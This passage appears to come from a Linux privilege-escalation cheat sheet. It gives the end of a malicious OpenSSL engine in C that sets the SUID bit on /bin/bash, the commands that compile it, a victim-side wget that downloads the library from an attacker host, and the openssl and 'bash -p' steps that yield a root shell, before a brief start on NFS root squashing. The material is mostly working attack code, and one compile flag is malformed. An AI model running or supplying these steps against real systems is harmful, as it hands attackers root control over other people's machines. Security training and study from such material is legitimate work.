 ```ps1

  if (!ENGINE_set_id(e, engine_id)) {
    fprintf(stderr, "ENGINE_set_id failed\n");
    goto end;
  }
  if (!ENGINE_set_name(e, engine_name)) {
    printf("ENGINE_set_name failed\n");
    goto end;
  }
  setuid(0);
  setgid(0);
  system("chmod +s /bin/bash");    
  system("echo Complete!");
  ret = 1;
 end:
  return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()

```

Compile Code & Create .so file

```ps1
gcc -c fPIC priv.c -o priv
gcc -shared -o priv.so -lcrypto priv
```

Victim

Download .so from Attacker

```ps1
wget -O /tmp/priv.so http://10.10.10.10:9000/priv.so

// Replace IP & Port
```
Get Root

```
openssl req -engine /tmp/priv.so
/bin/bash -p
id && whoami
```

## __NFS Root Squashing__

Network File System (NFS): Network File System permits a user on a client machine to mount the shared files or directories over a network. NFS uses Remote Procedure Calls (RPC) to route requests between clients and servers. Although NFS uses TCP/UDP port 2049 for sharing any files/directories over a network.

- rw: Permit clients to read as well as write access to the shared directory.
